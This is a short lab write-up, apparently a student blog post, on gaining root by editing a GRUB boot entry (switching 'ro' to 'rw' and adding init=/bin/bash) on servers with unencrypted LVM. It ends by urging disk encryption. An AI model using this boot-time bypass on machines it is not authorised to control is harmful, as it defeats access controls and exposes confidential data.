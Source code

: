 ```yaml
---
title: "Fastest Privesc on Grub"
description: "Imagine a world without encrypted LVM"
authors: ["FreezingKas"]
publish_date: "2022-12-13"
tags : ["System", "Privesc"]
---
```

# Fastest Privesc on Grub 
## Context

During Networking Security class, i had a lab with seven servers on a Proxmox created by our teacher without a root user.

After reporting all privilege escalations with `sudo` commands, my teacher decided to disable all the `sudo` commands until he could find a solution.

Unfortunately, it was not enough.

## Privesc

Grub is a boot loader that allows you to choose which operating system to boot.

It was installed on the servers, and I could edit startup scripts :

```bash
recordfail
load_video
gfxmode $linux_gfx_mode
insmod gzio
if [ x$grub_platform = xxen ]; then insmod xzio; insmod lzopio; fi
insmod part_gpt
insmod ext2
search --no-floppy --fs-uuid --set=root <UUID>
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
initrd /boot/initrd.img-5.15.0-56-generic
```

In our case, the LVM was not encrypted, so we could access files by spawning a root shell :

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
```

Just change `ro` (read_only) to `rw` (read-write) and add init=/bin/bash at the end of the line, then reboot the server.

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> rw quiet splash $vt_handoff init=/bin/bash
```

We can now access the root user.

```bash
root@(none):/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

Please encrypt your LVMs. Imagine it was not a lab, but an enterprise laptop with confidential documents.
When you encrypt LVM you can't read files when changing `ro` to `rw` in the grub file, passphrase is required.